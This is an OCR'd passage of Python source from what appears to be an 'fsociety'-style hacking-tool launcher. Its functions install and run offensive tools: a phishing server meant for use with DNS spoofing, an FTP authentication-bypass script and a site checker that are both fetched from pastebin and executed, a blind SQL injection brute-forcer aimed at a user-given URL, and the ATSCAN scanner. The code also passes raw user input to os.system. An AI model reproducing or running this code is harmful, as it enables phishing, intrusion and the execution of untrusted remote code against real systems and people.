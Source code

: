
def weeman():
    print("HTTP server for phishing in python. (and framework) Usually you will want to run Weeman with DNS spoof attack. (see dsniff, ettercap).")
    if yesOrNo():
        os.system(
            "git clone --depth=1 https://github.com/samyoyo/weeman.git && cd weeman && python weeman.py")
    else:
        fsociety()


def gabriel():
    print("Abusing authentication bypass of Open&Compact (Gabriel's)")
    os.system("wget http://pastebin.com/raw/Szg20yUh --output-document=gabriel.py")
    clearScr()
    os.system("python gabriel.py")
    ftpbypass = raw_input("Enter Target IP and Use Command:")
    os.system("python gabriel.py %s" % ftpbypass)


def sitechecker():
    os.system("wget http://pastebin.com/raw/Y0cqkjrj --output-document=ch01.py")
    clearScr()
    os.system("python ch01.py")


def ifinurl():
    print(''' This Advanced search in search engines, enables analysis provided to exploit GET / POST capturing emails & urls, with an internal custom validation junction for each target / url found.''')
    print('Do You Want To Install InurlBR ? ')
    cinurl = raw_input("Y/N: ")
    if cinurl in yes:
        inurl()
    else:
        fsociety()


def bsqlbf():
    clearScr()
    print("This tool will only work on blind sql injection")
    cbsq = raw_input("select target: ")
    os.system("wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/bsqlbf-v2/bsqlbf-v2-7.pl -o bsqlbf.pl")
    os.system("perl bsqlbf.pl -url %s" % cbsq)
    os.system("rm bsqlbf.pl")


def atscan():
    print ("Do You To Install ATSCAN ?")
    if yesOrNo():
        os.system("rm -rf ATSCAN")
        os.system(
            "git clone --depth=1 https://github.com/AlisamTechnology/ATSCAN.git && cd ATSCAN && perl atscan.pl")
    else:
        fsociety()
